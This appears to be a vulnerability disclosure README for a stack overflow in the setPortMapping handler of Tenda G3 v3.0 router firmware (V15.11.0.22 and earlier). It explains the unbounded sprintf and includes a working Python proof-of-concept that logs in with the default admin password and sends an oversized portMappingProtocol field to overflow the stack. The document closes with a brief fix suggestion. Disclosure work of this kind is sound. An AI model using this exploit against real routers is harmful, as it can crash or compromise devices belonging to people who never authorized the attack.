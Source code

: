 **First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.22

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  and Tenda-G3v3.0 V15.11.0.22 was discovered to contain stack overflow  at url **/goform/setPortMapping**

## Vulnerability Details
In the function **formSetPortMapping**, there is the following code, the value of **pPortMapIndex,pLanIP，pProtocl，pWanid** comes from the user's post request.

So we control the **portMappingIndex** variable to let the program **enter this if statement**, and then control the values ​​of **pLanIP, pProtocl, and pWanid** respectively through **portMappingServer, portMappingProtocol, and portMappingWan**

Because **the following sprintf has no length limit**, and **the three variables pLanIP, pProtocl, and pWanid all correspond to %s**, we can achieve **stack overflow** through one of these three variables.

![alt text](image.png) ![alt text](image-1.png)


## exp
It should be noted that you need to login before accessing /goform/setPortMapping, so you need to login before posting the request.

```python
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  # base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)
# formSetPortMapping
url = f"http://192.168.0.252/goform/setPortMapping"
data = {
    "portMappingIndex":b'1',
    "portMappingServer":b'a',
    "portMappingProtocol":b'a'*0x500,
    "portMappingWan":b'a'

}

response=session.post(url=url, data=data)

print(response.text)

```

## Any suggested solutions to fix
**The length limit should be added when calling the sprintf function**

